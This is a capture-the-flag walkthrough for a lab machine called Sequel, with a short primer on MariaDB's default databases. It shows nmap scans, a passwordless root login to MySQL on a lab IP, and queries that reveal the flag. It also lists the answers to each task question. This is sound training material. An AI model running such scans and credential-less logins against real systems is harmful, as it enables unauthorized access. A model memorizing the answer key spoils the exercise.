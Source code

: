 #### Guide on SEQUEL CTF Machine

##### When you install a fresh instance of MariaDB, there are typically several default databases that are created to manage various aspects of the database system and perform essential functions. These default databases include:

##### mysql: The mysql database contains system tables that store metadata and access control information. It is used for user and privilege management. The user table, for example, stores user account information, and the db table stores information about databases and access permissions.

##### information_schema: The information_schema database provides information about the database server and its schemas, tables, columns, and more. It is a system database that is used for querying metadata about the database server.

##### performance_schema: The performance_schema database is used for performance monitoring and diagnostics. It contains various tables that help monitor server performance and resource usage. This database is primarily used for profiling and analyzing the performance of the MariaDB server.

##### test: The test database is an empty database that may be present after installation. It is not typically used in production and is mainly for testing and experimentation.

##### These default databases are essential for the functioning of the MariaDB server, as they manage user accounts, store metadata, and provide performance monitoring capabilities. When you install MariaDB, these databases are created automatically to support the database management system's core functionality.

1. During our scan, which port do we find serving MySQL?<br>
3306

	- the -F flag is used for fast scan mode. It scans the top 100 most commond tcp/udp ports.
	```bash
	nmap -F 10.129.144.109    
	Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-11 14:55 PST
	Nmap scan report for 10.129.144.109
	Host is up (0.24s latency).
	Not shown: 99 closed tcp ports (conn-refused)
	PORT     STATE SERVICE
	3306/tcp open  mysql

	Nmap done: 1 IP address (1 host up) scanned in 1.29 seconds
	```

2. What community-developed MySQL version is the target running?<br>
mariadb
	- -sC flag is used to define a script along the nmap
	```bash
	nmap -F -sC 10.129.144.109
	Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-11 15:05 PST
	Stats: 0:00:36 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
	NSE Timing: About 98.40% done; ETC: 15:06 (0:00:01 remaining)
	Nmap scan report for 10.129.144.109
	Host is up (0.24s latency).
	Not shown: 99 closed tcp ports (conn-refused)
	PORT     STATE SERVICE
	3306/tcp open  mysql
	| mysql-info: 
	|   Protocol: 10
	|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
	|   Thread ID: 73
	|   Capabilities flags: 63486
	|   Some Capabilities: LongColumnFlag, Speaks41ProtocolNew, Speaks41ProtocolOld, FoundRows, Support41Auth, InteractiveClient, SupportsLoadDataLocal, IgnoreSigpipes, SupportsTransactions, DontAllowDatabaseTableColumn, ConnectWithDatabase, IgnoreSpaceBeforeParenthesis, ODBCClient, SupportsCompression, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
	|   Status: Autocommit
	|   Salt: Y<`NDL0H]xfu<fmoiBK4
	|_  Auth Plugin Name: mysql_native_password

	Nmap done: 1 IP address (1 host up) scanned in 45.44 seconds
	```

3. When using the MySQL command line client, what switch do we need to use in order to specify a login username?<br>
-u

	- SHOW databases; - to show all databases
	- USE database_name - to use a database
	- SHOW tables - to show all tables of the selected database
	- SELECT * FROM table_name - to show all the contents of a table

	```bash
	mysql -h 10.129.144.109 -u root
	Welcome to the MariaDB monitor.  Commands end with ; or \g.
	Your MariaDB connection id is 142
	Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

	Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

	Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

	MariaDB [mysql]> SHOW databases;
	+--------------------+
	| Database           |
	+--------------------+
	| htb                |
	| information_schema |
	| mysql              |
	| performance_schema |
	+--------------------+
	4 rows in set (0.241 sec)

	MariaDB [mysql]> USE htb;
	Database changed
	MariaDB [htb]> SHOW tables;

	+---------------+
	| Tables_in_htb |
	+---------------+
	| config        |
	| users         |
	+---------------+
	2 rows in set (0.244 sec)

	MariaDB [htb]> SELECT * FROM config;
	+----+-----------------------+----------------------------------+
	| id | name                  | value                            |
	+----+-----------------------+----------------------------------+
	|  1 | timeout               | 60s                              |
	|  2 | security              | default                          |
	|  3 | auto_logon            | false                            |
	|  4 | max_size              | 2M                               |
	|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
	|  6 | enable_uploads        | false                            |
	|  7 | authentication_method | radius                           |
	+----+-----------------------+----------------------------------+
	7 rows in set (0.241 sec)
	```

4. Which username allows us to log into this MariaDB instance without providing a password?<br>
root

5. In SQL, what symbol can we use to specify within the query that we want to display everything inside a table?<br>
&ast;

6. In SQL, what symbol do we need to end each query with?<br>
;

7. There are three databases in this MySQL instance that are common across all MySQL instances. What is the name of the fourth that's unique to this host?<br>
htb
	- from the info that we got, htb is the only database that is not a default database of MySQL, so we can assume that the flag is in there
	
8. Submit root flag<br>
7b4bec00d1a39e3dd4e021ec3d915da8
	
	
	
	

